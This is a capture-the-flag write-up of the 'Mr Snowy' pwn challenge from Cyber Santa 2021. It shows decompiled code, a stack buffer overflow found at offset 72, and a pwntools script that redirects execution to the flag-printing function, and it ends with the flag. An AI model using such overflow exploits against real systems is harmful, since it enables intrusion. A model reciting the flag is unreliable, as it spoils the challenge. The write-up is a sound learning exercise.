

# Cyber Santa 2021 – Mr Snowy

- **Category:** Pwn Day 1
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a binary called `mr_snowy`. On running the binary we see that we are to figure out the password to deactivate the secret camera.



Running `checksec --file=mr_snowy` showed that there was no stack canary, and no PIE, and NX was enabled.

## Solution

Decompiling the executable in `ghidra` gave us 2 main functions to look at.

Firstly, the success condition for getting the flag was to be able to call the `deactivate_camera` function which would then print the flag.

```
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;

  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,58,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```

The second function was the vulnerability of note. (Note: I renamed a few variables for clarity)

```
void investigate(void)

{
  int integer_option;
  char my_option [64];

  fflush(stdout);
  printstr(&DAT_00401878);
  fflush(stdout);
  read(0,my_option,264);
  integer_option = atoi(my_option);
  if (integer_option == 1) {
    puts("\x1b[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
                    /* WARNING: Subroutine does not return */
    exit(22);
  }
  ....
  ....
}
```

A character array of 64 bytes was declared, but 264 bytes was being read in which meant that there was opportunity for buffer overflow.

I used metasploit's exploit scripts to generate a cyclic pattern to generate a de Bruijn sequence (basically given a substring, you can figure out exactly where this substring occurred).

`./pattern_create.rb -l 76`

Using the generated pattern and passing it into the executable when they prompted to choose between investigate and breaking it led to segmentation fault. By running `sudo dmesg` I was able to figure out what was the overwritten instruction pointer.

```
[ 1282.712616] mr_snowy[2354]: segfault at a41346341 ip 0000000a41346341 sp 00007ffd8b0b4df0 error 14
[ 1282.712621] Code: Bad RIP value.
```

Using `./pattern_offset.rb -l 76 -q a41346341`, showed that the offset was 72.

Using all this information we need to craft a payload that will execute the `deactivate_camera` function after we overflow the buffer. Using `readelf -s mr_snowy`, I was able to get the required function address. I had some trouble manually typing in the address because one of the encoded characters was impossible to write ("\x11"), so I had to use a proper script to send the payload.

```
from pwn import *
elf = ELF('../mr_snowy')
offset = 72
payload = flat({offset: elf.symbols.deactivate_camera})
p = elf.process()
p.recvuntil(b'>')
p.sendline(b'1')
p.recvuntil(b'>')
p.sendline(payload)
p.interactive()
```

Trying it out on the remote server gives the flag

```
HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}
```

## Thoughts

- This was my first binary exploitation kind of challenge and really so many things learnt
- This marks the entrance of the rabbit hole of binary exploits that I was about to enter.
